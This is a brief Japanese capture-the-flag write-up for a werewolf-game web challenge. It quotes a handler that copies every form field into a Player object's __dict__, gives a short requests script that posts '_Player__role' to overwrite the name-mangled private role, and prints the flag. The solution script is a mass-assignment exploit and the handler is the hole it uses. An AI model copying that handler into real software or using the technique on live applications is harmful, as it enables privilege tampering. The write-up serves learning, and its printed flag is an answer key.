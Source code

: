 # writeup

配布されたpythonのコードを読み込む

```
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>コード</summary><div>
コード全文
```
import requests
def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    req = requests.post('{url}', data=data)
    body = req.content.decode()
    print(body)
if __name__ == '__main__':
    request()
```
</div></details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>